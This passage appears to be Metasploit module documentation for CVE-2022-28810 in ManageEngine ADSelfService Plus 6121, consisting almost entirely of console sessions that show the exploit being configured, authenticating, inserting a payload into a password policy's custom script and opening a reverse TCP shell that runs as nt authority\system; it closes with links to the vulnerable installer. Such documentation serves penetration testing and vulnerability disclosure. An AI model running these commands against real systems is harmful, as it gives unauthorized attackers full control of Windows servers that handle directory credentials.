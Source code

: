 ```
[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:50035 ) at 2022-04-19 09:10:37 -0700

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft
-----
          

C:\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTP for a powershell reverse shell

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set SHELL powershell.exe
SHELL => powershell.exe
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. The target failed to respond to check. "set ForceExploit true" to override check result.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 1.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:50060 ) at 2022-04-19 10:15:20 -0700

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe